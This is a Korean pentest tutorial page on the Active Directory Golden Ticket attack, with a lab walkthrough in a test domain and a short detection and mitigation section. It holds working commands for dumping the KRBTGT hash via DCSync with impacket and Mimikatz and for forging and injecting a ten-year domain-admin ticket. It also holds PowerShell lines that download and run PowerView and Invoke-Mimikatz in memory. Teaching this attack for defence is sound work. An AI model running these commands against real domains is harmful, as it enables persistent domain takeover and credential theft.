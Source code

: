 # 골든 티켓 (Golden Ticket)

골든 티켓은 공격자가 임의로 높은 권한 유저의 TGT (Ticket Granting Ticket) 를 KDC를 통하지 않고 만들어내는 액티브 디렉토리 지속성 공격이다. 지속성 공격이기 때문에 도메인 어드민이나 KRBTGT 유저를 장악한 뒤 진행한다. 골든 티켓 공격의 개념을 이해하려면 커버로스 인증에 대해 알고 있어야한다 - 이에 관련해서는 이 [페이지에서 서술](../계정-정보-탈취/커버로스/)한다.&#x20;

커버로스의 TGT는 TGS를 얻기 위해 필요하다. TGT는 커버로스의 인증 첫 2개 단계인 AS-REQ 와 AS-REP을 통해서 만들어진다.&#x20;

1. **AS-REQ:** 유저는 현재 타임스탬프를 자신의 비밀번호 NT 해시를 이용해 암호화한 뒤, 자신의 유저 이름과 함께 KDC에게 보낸다.&#x20;
2. **AS-REP:** KDC는 받은 요청을 갖고 NTDS.dit 파일에 있는 유저의 NT 해시로 요청을 복호화 시도한 뒤, 이것이 복호화가 되면 유저가 올바른 비밀번호를 갖고 있다고 판단, TGT를 발급해준다. 이때 이 TGT는 액티브 디렉토리와 커버로스의 기본 유저인 `KRBTGT` 라는 유저의 비밀번호 해시로 암호화 되어 있다.&#x20;
3. 유저는 이 TGT를 가지고 다른 서비스에 연결할 수 있는 나머지 커버로스 인증 4단계를 가지고 TGS를 발급 받아 사용한다.&#x20;

TGT를 KDC와의 `AS-REQ, AS-REP` 인증 통신 없이 스스로 만들 수 있을까? 놀랍게도 가능하다. 단, 도메인 어드민 급의 높은 권한을 갖고 있어야한다 (그래서 지속성 공격이다).&#x20;

1. 도메인 이름&#x20;
2. 도메인 SID&#x20;
3. KRBTGT의 비밀번호 NT 해시 (높은 권한 필요)&#x20;
4. TGT를 발급 받을 유저 이름&#x20;
5. TGT를 발급 받을 유저의 RID&#x20;
6. TGT를 발급 받을 유저의 그룹 리스트 (아무거나 써도 된다)&#x20;

도메인을 장악한 공격자는 이 6가지를 모두 구할 수 있다. 이제 공격자는 KDC를 거치지 않고 스스로 TGT를 만들어낼 수 있다. 공격자가 스스로 만들어낸 TGT는...&#x20;

1. 도메인 어드민의 최고 권한을 갖고 있고&#x20;
2. 모든 서비스와 호스트에 접근할 수 있으며&#x20;
3. 최고 10년동안 지속된다.&#x20;

공격자는 앞으로 10년 동안 도메인 내 존재하는 모든 호스트와 서비스에 접근할 수 있는 도메인 관리자 권한의 TGT를 만들어냈다. 이것이 바로 골든 티켓 공격이다.&#x20;

### 실습&#x20;

{% tabs %}
{% tab title="리눅스" %}
1. 도메인 SID를 알아낸다.&#x20;

```
└─# impacket-lookupsid choi.local/Administrator:'Password123!'@dc01.choi.local -domain-sids        
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation

[*] Brute forcing SIDs at dc01.choi.local
[*] StringBinding ncacn_np:dc01.choi.local[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-915960992-2308152741-2736258720
```



2\. DC Sync를 이용해 KRBTGT 유저의 NT 해시를 알아낸다. (NetBIOS 도메인 이름 규격 사용)

```
└─# impacket-secretsdump CHOI/Administrator:'Password123!'@dc01.choi.local -just-dc-user CHOI\\krbtgt      
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a8f31b642e60b362cc17588df4c5b1e2:::
```



3\. 알아낸 정보를 바탕으로 골든티켓을 생성한다. NT 해시는 KRBTGT의 것을 사용한다.&#x20;

```
└─# impacket-ticketer Administrator -domain choi.local -domain-sid S-1-5-21-915960992-2308152741-2736258720 -nthash a8f31b642e60b362cc17588df4c5b1e2
```



4\. 티켓을 로드한 후 사용한다.&#x20;

```
export KRB5CCNAME=/root/blog/Administrator.ccache

└─# impacket-secretsdump -k dc01.choi.local                                                                                                                                                            
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation
                                                                                                                                                                                                       
[*] Target system bootKey: 0x37b7fe1178c20af620c25feb531fbe0d                         
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::                                                                                                                 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
< ... >
```

&#x20;
{% endtab %}

{% tab title="윈도우" %}
윈도우에서는 powerview와 Invoke-mimikatz를 이용해서 진행한다.&#x20;

(0. AMSI 우회를 진행한다. )

1. Powerview를 이용해 도메인 SID를 알아낸다.&#x20;

```
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1')
Get-DomainSID -Domain choi.local

S-1-5-21-915960992-2308152741-2736258720
```



2\.  KRBTGT의 NT 해시를 알아낸다.&#x20;

```
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:choi.local /user:krbtgt@choi.local"'

< ... >
Credentials:
  Hash NTLM: a8f31b642e60b362cc17588df4c5b1e2
    ntlm- 0: a8f31b642e60b362cc17588df4c5b1e2
    lm  - 0: 246a4fe4221c6c2f69dddac89af411d1
```



3\. Domain SID 와 KRBTGT의 NT 해시를 가지고 골든 티켓을 만든 뒤,  Pass-the-Ticket 을 이용해 골든 티켓이 로드된 파워쉘 세션을 생성한다.&#x20;

```
Invoke-Mimikatz -Command '"kerberos::golden /admin:Administrator /domain:choi.local /id:500 /sid:S-1-5-21-915960992-2308152741-2736258720 /krbtgt:a8f31b642e60b362cc17588df4c5b1e2"'

Invoke-Mimikatz -Command '"kerberos::ptt <티켓-파일>"'
.\Rubeus.exe ptt /ticket:<티켓-파일>
```

이렇게 하면 현재 디렉토리에 `ticket.kirbi` 라는 골든티켓이 생성된다. 이를 mimikatz 나 Rubeus 등을 이용해 사용할 수 있다.&#x20;

번거롭게 파일로 저장하기 싫다면 Mimikatz를 이용해서 골든 티켓이 들어가 있는 새로운 파워쉘 세션을 만들 수도 있다. 이를 위해서 Pass-the-Ticket 플래그를 추가해준다.&#x20;

```
Invoke-Mimikatz -Command '"kerberos::golden /admin:Administrator /domain:choi.local /id:500 /sid:S-1-5-21-915960992-2308152741-2736258720 /krbtgt:a8f31b642e60b362cc17588df4c5b1e2 /ptt"'
Hostname: wkstn01.choi.local / S-1-5-21-915960992-2308152741-2736258720

< ... >
mimikatz(powershell) # kerberos::golden /admin:Administrator /domain:choi.local /id:500 /sid:S-1-5-21-915960992-2308152741-2736258720 /krbtgt:a8f31b642e60b362cc17588df4c5b1e2 /ptt
User      : Administrator
Domain    : choi.local (CHOI)
SID       : S-1-5-21-915960992-2308152741-2736258720
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: a8f31b642e60b362cc17588df4c5b1e2 - rc4_hmac_nt
Lifetime  : 7/3/2022 5:39:54 PM ; 6/30/2032 5:39:54 PM ; 6/30/2032 5:39:54 PM
-> Ticket : ** Pass The Ticket **

Golden ticket for 'Administrator @ choi.local' successfully submitted for current session
```

도메인 관리자인 Administrator의 TGT가 만들어졌고, 이는 "6/30/2032 5:39:54 PM" 까지 지속되는 10년짜리 골든 티켓이다. 이 TGT는 현재 파워쉘 세션에 로드되었다.&#x20;
{% endtab %}
{% endtabs %}



### 대응 방안&#x20;

* 이미 만들어진 골든 티켓은 도메인 내 KRBTGT 계정의 비밀번호가 2번 바뀌면 더 이상 사용할 수 없게 된다. 단, KRBTGT 계정의 비밀번호를 바꾸면 다른 서비스들도 재시작이 필요할 수도 있기 때문에 프로덕션에서 진행할 것이라면 비즈니스 시간이 아닌 시간에 업데이트 하는 것이 좋다. 또한, 2번 바꿀 때 어느정도 텀을 두고 바꾸는 것이 좋다. 곧바로 KRBTGT의 비밀번호를 두번 연달아 바꾸면 현존하는 세션, 티켓, 그리고 DC Sync 기능이 먹통이 될 수 있다.&#x20;

다음의 탐지 방안은 많은 숫자의 로그를 생성할 수 있으니 프로덕션에 적용하기 전 충분한 테스트를 거쳐야한다.&#x20;

* `Default Domain Controllers Policy/Computer Configuration/Policies/Windows Settings/Advanced Audit Policy Configuration/Account Logon/Audit Kerberos Authentication Service` 에서 Success 로깅 설정을 한다.&#x20;
  * 이벤트 ID - 4768 - Authentication Ticket was Requested 를 수집한다.&#x20;
* `Default Domain Controllers Policy/Computer Configuration/Policies/Windows Settings/Security Settings/Advanced Audit Policy Configuration/Audit Policies/Account Logon/Audit Kerberos Service Ticket Operations - Success`&#x20;
  * 이벤트 ID - 4769 - Kerberos Service Ticket was Granted 를 수집한다.&#x20;
* 만약 4768이 없는 4769 이벤트가 존재한다면, 알람을 울린다 - TGT 요청 없이 TGS 만 요청한 것이기 때문에 이미 골든 티켓을 공격자가 가지고 있다는 반증이 될 수 있다.&#x20;

골든 티켓 공격은 탐지하기 어렵기 때문에 최대한 KRBTGT 비밀번호를 바꾸며 피해를 최소화한다. 또한, 지속성 공격이기 때문에 애당초 도메인이 장악 당하지 않도록 다른 공격을 막는데 신경 쓰도록 한다.&#x20;



### 레퍼런스&#x20;

{% embed url="https://adsecurity.org/?p=483" %}

{% embed url="https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it" %}

{% embed url="https://adsecurity.org/?p=1515" %}
